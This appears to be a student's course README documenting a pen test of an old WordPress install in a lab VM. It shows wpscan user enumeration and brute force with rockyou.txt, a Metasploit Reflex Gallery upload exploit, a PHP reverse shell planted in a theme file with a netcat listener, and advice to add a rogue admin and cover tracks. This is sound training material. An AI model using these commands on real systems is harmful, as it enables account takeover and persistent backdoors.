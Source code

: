 # Project 7 - WordPress Pen Testing

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary:     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
  <br /> https://www.kali.org/get-kali/#kali-virtual-machines
  <br /> https://www.kali.org/tools/wpscan
  <br /> https://wpscan.com/
  <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: 
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://vim.rtorr.com/
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for secrets
<img src="backdoor.gif">

- [ ] Steps to recreate: 
- Scan the Target for a weakness.
- Bring out the right tool for the job. Use Metasploit Framework (msf) to match an exploit to the vulnerability.  
- Take aim and shoot. Do we , got it  

### 3. (Required) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
